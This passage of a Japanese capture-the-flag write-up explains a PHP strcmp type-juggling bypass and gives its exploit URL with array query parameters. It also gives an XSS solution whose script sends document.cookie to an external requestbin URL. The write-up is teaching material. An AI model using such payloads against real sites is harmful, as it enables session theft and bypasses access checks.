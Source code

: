 PHPの仕様をハックする問題。苦戦してる人がいて申し訳ないが、これは考えてどうにかなる問題ではなく、PHPの**やばい仕様**を調べて見つけられるかという問題である。

PHPは歴史ある言語なので、今では考えられないやばい挙動が多々あり、何も考えずに書くと罠を踏みがちである。

フラグを出すための条件分を見てみると、

```php
if (strcmp($_GET["number" . ($index + 1)], (string)$number) == 0) {
    $matches++;
}
```

となっている。[strcmp](https://www.php.net/manual/ja/function.strcmp.php)の説明を見ると「str1 が str2 よりも小さければ < 0 を、str1が str2よりも大きければ > 0 を、 等しければ 0 を返します。」とあり、一見脆弱性はなさそうだが、PHPのやばい挙動3つを組み合わせるとこの文をハックできる。

1. GETパラメーターのクエリ文字列の挙動

    クエリ文字列は`hoge=fuga`というのが通常の書き方だが、ここを`hoge[a]=fuga`などとするとネストされた値を記述することができる。この場合`$_GET["hoge"]`には`["a" => "fuga"]`という連想配列が突っ込まれる。

2. strcmpの型エラー時の挙動

    strcmp関数は通常数値を返すが、引数に文字列以外の値をとると、エラーとして`NULL`を返す。

3. PHPの`==`演算子の挙動

    PHPはJavaScriptなどと同じく比較演算子として`==`と`===`を持ち、前者は暗黙の型変換をともなう。すなわち`NULL`と`0`を`==`で比較すると、`NULL`が暗黙的に数値に変換され、`0`とみなされる。すなわち`NULL == 0`は真を返す。

以上により、クエリ文字列に`number1[hoge]=fuga`のような値を与えるとランダムな値を推測することなく条件を満たすことができる。最終的に以下のURLにアクセスするとフラグを得ることができる。

http://3.114.12.105:10030/?number1[0]=1&number2[0]=1&number3[0]=1&number4[0]=1&number5[0]=1&number6[0]=1

なおこの問題の作問にあたっては CPCTF 2019 のsekai67さん作問の問題を参考にした (すでにウェブサイトが消えていて確認できない)。

フラグ: `SWCTF{now_listening_funbare_runner}`

楽曲: [FUNBARE☆RUNNER - 777☆SISTERS](http://t7s.jp/release/ingame/17.html)

## Crosses (244pts)

制限のない最も単純なXSS。講義で伝えたとおり、requestbinなどを用いてCookieを転送すると楽である。

回答例

```html
<script>location.href="http://requestbin.net/r/s4dhc2s4?"+document.cookie</script>
```

フラグ: `SWCTF{now_listening_sakura_sunrise}`

楽曲: [Sakura Sunrise - Ryu☆](https://open.spotify.com/track/7jlhAusw6CrhVONeswcbuw)

## Crosses 2 (464pts)

出題ミスすみません⋯⋯。修正されて、ただのscriptという文字列を使えないXSS問になった。

イベントハンドラ系のHTML属性などを使用する。

